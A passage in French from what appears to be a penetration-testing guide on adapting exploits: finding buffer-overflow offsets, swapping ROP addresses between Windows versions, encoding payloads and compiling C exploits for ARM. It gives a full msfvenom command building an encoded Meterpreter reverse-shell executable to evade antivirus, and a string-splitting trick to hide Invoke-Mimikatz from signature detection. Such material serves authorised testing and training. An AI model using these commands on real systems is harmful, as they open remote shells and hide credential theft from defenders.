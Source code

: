 Les exploits de type buffer overflow reposent souvent sur des adresses mémoire spécifiques qui varient selon les versions du système d'exploitation ou les configurations. L'adaptation des offsets nécessite généralement une analyse en débogueur pour identifier les adresses correctes dans l'environnement cible.

Par exemple, un exploit ciblant une version spécifique de Windows Server 2012 R2 pourrait nécessiter l'ajustement des adresses de retour (return addresses) pour fonctionner sur Windows Server 2016. Ce processus implique l'identification des gadgets ROP équivalents dans la nouvelle version et la modification des adresses dans le code de l'exploit.

La commande `pattern_create.rb` de Metasploit permet de générer des patterns uniques pour identifier précisément les offsets dans un buffer overflow. Après avoir provoqué le crash avec ce pattern, `pattern_offset.rb` permet de calculer l'offset exact à partir de la valeur présente dans le registre EIP/RIP au moment du crash.

#### Encodage de payloads

Les solutions de sécurité modernes détectent facilement les payloads standards. L'encodage et l'obfuscation permettent de contourner ces détections.

Avec msfvenom, l'option `-e` permet de spécifier un encodeur, par exemple : `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe`. L'option `-i 10` applique l'encodage 10 fois, augmentant les chances d'évasion.

Pour les payloads PowerShell, des techniques d'obfuscation comme le remplacement de chaînes, la concaténation dynamique ou l'encodage Base64 permettent de contourner les détections basées sur des signatures. Par exemple, transformer `Invoke-Mimikatz` en ```$a='Mi';$b='mik';$c='atz';Invoke-$a$b$c``` peut suffire à contourner certaines détections.

#### Adaptation de PoC Python et compilation d'exploits

De nombreux exploits sont distribués sous forme de scripts Python ou de code source C/C++. Leur adaptation aux spécificités de l'environnement cible est souvent nécessaire.

Pour les exploits Python, les modifications courantes incluent l'ajustement des paramètres réseau, le remplacement des payloads, ou la correction de bugs. Par exemple, adapter un exploit pour qu'il utilise un payload personnalisé plutôt que le shell inversé par défaut peut nécessiter la modification de la section génération de payload et l'ajustement des longueurs de buffer en conséquence.

Pour les exploits en C/C++, la compilation pour la plateforme cible est souvent nécessaire. Par exemple, compiler un exploit pour une architecture ARM plutôt que x86 : `gcc -o exploit_arm exploit.c -march=armv7-a`. Dans certains cas, des ajustements du code source sont nécessaires pour tenir compte des spécificités de l'architecture cible, comme l'alignement mémoire ou l'endianness.

L'adaptation de PoC requiert une compréhension approfondie du mécanisme de la vulnérabilité et des spécificités de l'environnement cible. Cette compétence distingue souvent les pentesteurs expérimentés et constitue un atout majeur pour exploiter des vulnérabilités dans des environnements non standards ou hautement sécurisés.

## 4. Quick Ops

Cette section fournit des ressources opérationnelles pour une mise en œuvre rapide et efficace des techniques d'exploitation. Conçue pour les situations où le temps est limité, elle propose des commandes prêtes à l'emploi, une checklist de préparation et un scénario d'exploitation guidé.
